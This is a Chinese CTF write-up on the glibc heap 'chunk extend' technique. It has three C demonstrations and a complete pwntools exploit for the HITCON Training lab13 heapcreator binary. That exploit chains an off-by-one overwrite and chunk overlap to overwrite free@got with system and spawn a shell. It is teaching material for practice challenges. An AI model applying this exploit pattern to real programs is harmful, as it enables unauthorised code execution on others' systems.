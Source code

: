 ```yaml
---
title: Chunk Extend
date: 2018-04-11 17:35:45
categories:
tags:
	- CTF
	- Chunk-Extend

---
```




chunk extend/shrink 是堆漏洞的一种常见的利用手法，与其他堆漏洞的利用相同，chunk extend/shrink 攻击同样需要有可以控制 malloc_chunk 的漏洞。这种利用方法需要以下的先决条件：

- 程序中存在基于堆的漏洞
- 漏洞可以使得 malloc_chunk 能够被攻击者控制



## 原理

该技术依赖于 ptmalloc(aka glibc) 获取 malloc_chunk 的各种属性的宏。

在 ptmalloc 中，获取下一 chunk 块地址即使用当前块指针加上当前块大小，

在 ptmalloc 中，获取前一 chunk 块地址即使用malloc_chunk->prev_size获取前一块大小，然后使用本 chunk 地址减去所得大小。

一般来说，我们很少见到进行 chunk shrink 的操作。所以这里主要介绍 chunk extend 的利用。



## 基本示例1

简单来说，该利用的效果是通过更改第一个块的大小来控制第二个块的内容。

```c
int main(void){
    void *ptr,*ptr1;
    ptr=malloc(0x10);//分配第一个0x10的chunk
    malloc(0x10);//分配第二个0x10的chunk
    *(long long *)((long long)ptr-0x8)=0x41;// 修改第一个块的size域
    free(ptr);
    ptr1=malloc(0x30);// 实现 extend，控制了第二个块的内容
    return 0;
}
```



## 基本示例2

以下这个示例中，我们使用 0x80 这个大小来分配堆（作为对比，fastbin 默认的最大的 chunk 可使用范围是0x70）。

因为分配的 size 不处于 fastbin 的范围，因此在释放时如果与 top chunk 相连会导致和top chunk合并。所以我们需要额外分配一个chunk，把释放的块与top chunk隔开。

```c
int main(){
    void *ptr,*ptr1;
    ptr=malloc(0x80);//分配第一个 0x80 的chunk1
    malloc(0x10); //分配第二个 0x10 的chunk2
    malloc(0x10); //防止与top chunk合并
    *(int *)((int)ptr-0x8)=0xb1;
    free(ptr);  //释放后，chunk1 把 chunk2 的内容吞并掉并一起置入unsorted bin
    ptr1=malloc(0xa0);
    //再次进行分配的时候就会取回 chunk1 和 chunk2 的空间，此时我们就可以控制 chunk2 中的内容。
}
```



## 基本示例3

示例3是在示例2的基础上进行的，这次我们先释放 chunk1，然后再修改 unsorted bin 中的 chunk1 的size域。

```c
int main(){
    void *ptr,*ptr1;
    ptr=malloc(0x80);//分配第一个0x80的chunk1
    malloc(0x10);//分配第二个0x10的chunk2
    free(ptr);//首先进行释放，使得chunk1进入unsorted bin
    *(int *)((int)ptr-0x8)=0xb1;//然后篡改chunk1的size域 , 大小包含chunk1和chunk2
    //再进行 malloc 分配就可以得到 chunk1+chunk2 的堆块，从而控制了chunk2 的内容。
    ptr1=malloc(0xa0); 
}
```



## Chunk Extend/Shrink 可以做什么

一般来说，这种技术并不能直接控制程序的执行流程，但是可以导致 chunk overlapping*，*所以我们可以完整的控制这个堆块 chunk 中的内容。如果 chunk 存在字符串指针、函数指针等，就可以利用这些指针来进行信息泄漏和控制执行流程。**如果不存在类似的域也可以通过控制 chunk header 中的数据来实现 fastbin attack 等利用。**



## 例子 HITCON Trainging lab13

### 基本功能

程序大概是一个自定义的堆分配器，每个堆主要有两个成员：大小与内容指针。主要功能如下

1. 创建堆，根据用户输入的长度，申请对应内存空间，并利用 read 读取指定长度内容。这里长度没有进行检测，当长度为负数时，会出现任意长度堆溢出的漏洞。当然，前提是可以进行 malloc。此外，这里读取之后并没有设置 NULL。
2. 编辑堆，根据指定的索引以及之前存储的堆的大小读取指定内容，但是这里读入的长度会比之前大 1，所以会**存在 off by one 的漏洞**。
3. 展示堆，输出指定索引堆的大小以及内容。
4. 删除堆，删除指定堆，并且将对应指针设置为了 NULL。

### 利用

基本利用思路如下

1. 利用off by one 漏洞覆盖下一个chunk 的 size 字段，从而构造伪造的 chunk 大小。
2. 申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针。

更加具体的还是直接看脚本吧。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('./libc.so.6')


def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


free_got = 0x602018
create(0x18, "dada")  # 0
create(0x10, "ddaa")  # 1
# overwrite heap 1's struct's size to 0x41
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
# 覆盖之后释放：
# 会出现 30(低地址) 和 10(高地址) 大小的空闲快
# Create(0x30) 可以实现 覆盖 结构体的Content 指针。
# trigger heap 1's struct to fastbin 0x40
# heap 1's content to fastbin 0x20
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20
# new heap 1's content will point to old heap 1's struct, size 0x30
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
# 创建之后，结构体在高地址，Content块在低地址，通过写入Content覆盖结构体的指向的Content块为Free()。
# 然后向Content写入地址，即可替换free()地址。

# leak freeaddr
show(1)
r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + libc.symbols['system']
#gdb.attach(r)
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
r.interactive()
```

![1](chunk-extend/1.png)


